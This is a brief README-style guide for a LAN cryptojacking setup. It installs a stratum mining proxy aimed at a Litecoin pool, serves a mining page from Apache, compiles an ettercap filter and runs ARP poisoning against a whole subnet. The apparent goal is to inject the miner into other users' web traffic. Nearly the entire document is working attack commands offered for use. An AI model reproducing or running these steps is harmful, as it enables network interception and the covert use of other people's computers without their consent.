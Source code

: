 Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

git clone https://github.com/slush0/stratum-mining-proxy
git clone https://github.com/slush0/stratum
cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt
move lm to your apache directory.
cp lm /var/www/html -R
/etc/init.d/apache2 restart
etterfilter nethash.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
